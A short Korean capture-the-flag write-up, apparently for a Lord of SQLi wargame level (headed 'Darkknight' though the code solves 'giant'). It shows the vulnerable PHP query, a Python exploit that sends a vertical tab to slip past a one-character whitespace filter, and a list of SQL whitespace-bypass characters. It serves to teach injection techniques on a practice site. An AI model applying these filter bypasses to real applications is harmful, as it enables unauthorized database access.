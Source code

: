 

## Darkknight Write-up

### 문제
``` php
<?php  
include "./config.php";  
login_chk();  
dbconnect();  
if(strlen($_GET[shit])>1) exit("No Hack ~_~");  
if(preg_match('/ |\n|\r|\t/i', $_GET[shit])) exit("HeHe");  
$query = "select 1234 from{$_GET[shit]}prob_giant where 1";  
echo "<hr>query : <strong>{$query}</strong><hr><br>";  
$result = @mysql_fetch_array(mysql_query($query));  
if($result[1234]) solve("giant");  
highlight_file(__FILE__);  
?>
```

### Exploit 코드
``` python
import requests

url = 'https://los.rubiya.kr/giant_18a08c3be1d1753de0cb157703f75a5e.php'
cookies = {'PHPSESSID' : 'My PHPSESSID'}
params = {}
params['shit'] = chr(0x0b) # 수직탭(%0b), 다음 페이지(%0c) 사용 가능

res = requests.get(url, cookies=cookies, params=params)

if "Clear" in res.text :
    print("[♪] GIANT Clear")
```
이번 문제는 공백 우회를 해야한다.  
공백 우회하는 방법에는 다음이 있다.
- 괄호 `()`
- 주석 `/**/`
- 더하기 `+`
- 수평탭(Horizontal Tab) `%09`
- 수직탭(Vertical Tab) `%0b`
- 개행(Line Feed) `%0a`
- 다음 페이지(Form Feed) `%0c`
- 복귀(Carriage Return) `%0d`
문제에서 `%20(공백)` `%0a(개행)` `%0d(복귀)` `%09(수평탭)`이 필터링 되어 있고 문자열의 길이가 1글자여야 한다.  
따라서 이를 제외한 `%0b` `%0c`를 이용해 문제를 해결할 수 있다.